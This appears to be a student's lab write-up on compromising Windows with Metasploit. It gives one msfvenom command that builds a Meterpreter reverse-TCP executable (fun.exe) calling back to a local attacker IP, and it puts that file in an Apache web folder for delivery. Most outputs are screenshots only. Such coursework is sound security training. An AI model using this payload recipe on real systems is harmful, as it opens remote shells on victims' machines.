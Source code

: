 ## REG.NO:212222040178
## NAME:Vijay Shankar M
# Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## PROGRAM:

Find the attackers ip address using ifconfig

## OUTPUT:

![image](https://github.com/user-attachments/assets/3120e0e1-6fae-46ac-bd78-1c24996a7db9)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

## OUTPUT:

![image](https://github.com/user-attachments/assets/4f15657f-f462-400e-835c-f5957a0c18e8)


copy the fun.exe into the apache /var/www/html folder

![image](https://github.com/user-attachments/assets/6bb361dd-5b80-42f6-a121-cb1a07825671)


Start apache server sudo systemctl apache2 start




## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.

